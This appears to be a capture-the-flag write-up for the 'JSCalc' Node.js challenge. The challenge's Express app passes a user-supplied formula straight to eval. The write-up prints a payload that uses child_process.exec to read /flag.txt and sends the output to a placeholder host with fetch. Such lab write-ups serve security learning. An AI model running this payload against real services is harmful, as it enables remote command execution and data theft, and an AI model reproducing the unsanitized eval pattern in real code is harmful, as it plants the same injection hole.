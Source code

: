 ## JSCalc - NodeJS (Easy)

JSCalc challenge allows you calculate an equation using eval in js

**index.js**
```js
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}

	return res.send(response('Missing parameters'));
})

module.exports = router;
```

As you can see it calculates the formula using `Calculator.calculate`

**helpers/calculatorHelper.js**
```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }c
        }
    }
}
```

There's no filters / sanitizations or anything over the formula so by using child_process.exec you can execute commands.
So you can execute `require('child_process').exec('cat /flag.txt')`, however the exec will return an Object containing stdout.
A Lazy solution can be by overwriting the callback function to send the stdout to a HTTP url
```js
require('child_process').exec('cat /flag.txt', function (error, stdout, stderr) {fetch("http://your-site/?flag="+stdout);});
```

That's it.
